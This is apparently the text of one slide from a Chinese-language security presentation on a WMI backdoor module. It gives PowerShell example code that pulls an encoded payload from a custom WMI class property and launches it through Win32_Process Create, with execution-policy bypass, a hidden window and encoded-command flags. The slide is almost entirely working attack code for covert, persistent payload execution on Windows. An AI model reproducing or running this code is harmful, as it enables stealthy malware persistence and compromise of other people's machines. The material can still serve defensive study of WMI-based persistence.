

0x02 WMI后门模块
·  代码执行
示例代码：
#读取加密payload
$EncodedPayload = ([WmiClass] 'Win32_Command').Properties['EnCommand'].Value

#PowerShell执行命令
$PowerShellPayload = "powershell -ep bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -enc $EncodedPayload"
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload